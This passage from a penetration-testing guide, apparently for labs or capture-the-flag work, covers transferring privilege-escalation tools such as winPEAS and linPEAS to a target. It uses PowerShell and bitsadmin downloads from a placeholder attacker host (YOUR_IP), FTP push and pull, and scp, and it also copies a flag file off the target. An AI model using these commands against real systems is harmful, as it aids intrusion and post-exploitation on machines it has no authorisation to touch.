     :: PowerShell (Modern, very effective)
    powershell -c "Invoke-WebRequest -Uri 'http://YOUR_IP/winpeasany.exe' -OutFile 'winpeasany.exe'"
    powershell -c "(New-Object Net.WebClient).DownloadFile('http://YOUR_IP/winpeasany.exe', 'winpeasany.exe')"

    :: BITSAdmin (Lives off the land)
    bitsadmin /transfer myjob /download /priority normal http://YOUR_IP/winpeasany.exe C:\Windows\Temp\winpeasany.exe
    ```

### 2. Using FTP (If an FTP Server is Running)
If the target has an FTP server you can access (e.g., you found credentials), you can upload files to it.

**On Your Attacking Machine:**
```bash
# Connect to the target's FTP server to UPLOAD a file (PUSH)
ftp TARGET_IP
> put /path/on/your/machine/winpeasany.exe
> exit

# Alternatively, start your OWN FTP server for the target to PULL from.
# Using Python pyftpdlib:
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21 -w # -w allows write access (uploads)

# Using pure-ftpd (Kali)
sudo systemctl start pure-ftpd
```
**On the Target Machine:**
```bash
# Linux target connecting to YOUR FTP server
ftp YOUR_IP
> get linpeas.sh
> exit

# Windows target connecting to YOUR FTP server
ftp YOUR_IP
> get winpeasany.exe
> exit
```

### 3. Using SCP/SFTP (If SSH is Open)
This is a secure and efficient method if you have SSH credentials on the target.

**From Your Attacking Machine:**
```bash
# Upload a file TO the target (PUSH)
scp /path/to/linpeas.sh username@TARGET_IP:/tmp/linpeas.sh

# Download a file FROM the target (PULL)
scp username@TARGET_IP:/path/to/flag.txt ./
```
